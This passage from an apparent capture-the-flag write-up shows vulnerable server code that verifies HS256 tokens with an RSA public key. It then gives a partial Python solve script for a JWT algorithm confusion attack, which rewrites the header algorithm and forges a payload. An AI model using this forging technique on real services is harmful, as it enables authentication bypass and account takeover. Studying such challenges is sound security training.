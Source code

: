 ```py
            KEY,
            backend=default_backend()
        )
        raw_key_bytes = key_obj.public_bytes(
            encoding=serialization.Encoding.DER,
            format=serialization.PublicFormat.SubjectPublicKeyInfo
        )

        return jwt.decode(
            token,
            key=raw_key_bytes,
            algorithms=["HS256"],
            options={"verify_aud": False}
        )
    elif alg == "RS256":
        return jwt.decode(
            token,
            key=KEY,
            algorithms=["RS256"],
            options={"verify_aud": False}
        )
    else:
        raise ValueError(f"Unsupported alg: {alg}")
```

Which allows us to perform a JWT algorithm confusion attack. To start off we need to sign up and login as any user. Then get the JWT token from local storage. After this we can simply paste the token into the solve script below:

```py
import base64
import json
import hmac
import hashlib
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.backends import default_backend

KEY = b"""-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAu312Aqc7m8puqI5i0mm4
+CdBRYRmccFwJme1qHVAc0RcIPSS6k3hJ/WZJgQyDuTt/DUtYb2pbVTzIso3v5HR
FodZ8zZdqHLBF+V8uVluwXGyjw5i7mpBS8PJQMMIL3tEPmYB21KKF1cfkMbDYE6S
r8BchYraXnAtLj+w6w1rzTOEYsqbktCq29xXTWU8+E+mOUYKHS8n8olyPEBfiaHY
fy7nUt+uMrUXxayrTWMi7HduFq4ZW7kUnH66koTo26x+HuhHuh9lhIdVLKmB64Yq
Kyt88r1XOAXI9cMVQZqdRuGbYSg8UgLE1mzqxkAzv0E6hITTJYQdCTAiuUX1Dj1M
bwIDAQAB
-----END PUBLIC KEY-----"""

key_obj = serialization.load_pem_public_key(
            KEY,
            backend=default_backend()
        )
raw_key_bytes = key_obj.public_bytes(
            encoding=serialization.Encoding.DER,
            format=serialization.PublicFormat.SubjectPublicKeyInfo
        )

def jwt_alg_confusion(token, new_payload, public_key):
    public_key = raw_key_bytes
    header, payload, signature = token.split(".")
    header = json.loads(base64.urlsafe_b64decode(header).decode())
    header["alg"] = header["alg"].replace("RS", "HS")
    header = base64.urlsafe_b64encode(json.dumps(header).encode()).strip(b"=")
    
    new_payload = base64.urlsafe_b64encode(json.dumps(new_payload).encode()).strip(b"=")
```